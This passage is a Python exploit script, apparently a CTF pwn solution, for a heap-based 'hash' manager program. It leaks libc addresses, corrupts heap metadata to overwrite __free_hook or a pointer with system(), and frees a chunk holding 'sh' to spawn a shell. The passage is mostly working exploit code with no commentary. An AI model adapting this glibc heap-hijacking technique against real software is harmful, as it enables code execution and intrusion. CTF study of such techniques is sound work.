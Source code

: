 ```python
edit_hash(1, "code", p64(libc.symbols['system']) + 'a' * (16 - 8))
edit_hash(1, "name", "sh\x00")

del_hash(1)
p.interactive()
"""
new_hash("md5_16", 'a' * 16, 'a' * 16)
edit_hash(2, "type", "sha1")
edit_hash(2, "name", 'a' * 100)
edit_hash(2, "name", 'a' * 200)
edit_hash(2, "code", 'a' * 16 + p64(0) + p64(0x71) + p64(free_hook_addr - 19))

new_hash("md5_16", 'a' * 100, 'a' * 16)

print "free() addr:", hex(free_addr)
print "puts() addr:", hex(u64(code.ljust(8, '\x00')))
print "libc base addr:", hex(libc.address)
print "free_hook addr", hex(libc.symbols['__free_hook'])
raw_input("wait for attach")

new_hash("md5_16", 'a' * 19 + p64(libc.symbols['system']) + 'a' * (100-8-19), 'a' * 16)
new_hash("md5_16", 'sh\x00', 'a' * 16)
####
del_hash(5)
"""
```



